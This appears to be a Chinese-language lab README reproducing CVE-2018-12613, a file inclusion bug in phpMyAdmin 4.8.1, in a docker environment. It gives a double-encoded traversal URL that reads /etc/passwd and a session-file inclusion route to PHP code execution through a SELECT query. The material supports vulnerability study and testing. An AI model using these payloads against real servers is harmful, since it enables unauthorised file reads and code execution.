


# phpmyadmin 4.8.1 远程文件包含漏洞（CVE-2018-12613）

phpMyAdmin是一套开源的、基于Web的MySQL数据库管理工具。其index.php中存在一处文件包含逻辑，通过二次编码即可绕过检查，造成远程文件包含漏洞。

参考文档：

- https://mp.weixin.qq.com/s/HZcS2HdUtqz10jUEN57aog
- https://www.phpmyadmin.net/security/PMASA-2018-4/

## 漏洞环境

执行如下命令，启动phpmyadmin 4.8.1：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`，即可进入phpmyadmin。配置的是“config”模式，所以无需输入密码，直接登录test账户。

## 漏洞复现

访问`http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd`，可见`/etc/passwd`被读取，说明文件包含漏洞存在：



利用方式也比较简单，可以执行一下`SELECT '<?=phpinfo()?>';`，然后查看自己的sessionid（cookie中phpMyAdmin的值），然后包含session文件即可：


